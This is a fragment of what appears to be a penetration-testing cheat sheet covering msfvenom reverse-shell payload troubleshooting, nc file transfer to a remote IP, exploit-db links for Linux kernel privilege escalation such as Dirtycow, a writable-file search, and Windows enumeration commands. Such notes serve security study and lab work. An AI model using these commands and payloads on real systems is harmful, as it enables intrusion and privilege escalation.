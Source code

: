 ```

see also hydra, medusa


###Troubleshooting###

Shellcode isn't working
- Make sure you're using payload `linux/x86/shell_reverse_tcp` not `linux/x86/shell/reverse_tcp`. The latter is a staged payload that requires the multi/handler
- Check for bad characters and include them in msfvenom with `-b '\x00\xff'` 

##Privilege Escalation##

transfer files with nc
```
nc -nlvp 4444 > incoming.exe
nc -nv 10.0.0.22 4444 < outgoing.exe
```

###Linux###

linux kernel vulnerabilities
```
uname -a
cat /etc/lsb-release
```

[Dirtycow Kernel 2.6.22 < 3.9](https://www.exploit-db.com/exploits/40616)
[Linux Kernel 2.6 udev < 1.4.1 Local Privilege Escalation](https://www.exploit-db.com/exploits/8478)
[Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper'](https://www.exploit-db.com/exploits/35161)


Finding writable files

```
find / -writable 2>/dev/null
```

### Windows

info gathering 
```
systeminfo
driverquery
tasklist
fsutil fsinfo drives
set
qwinsta
net time
net file
net session
net use
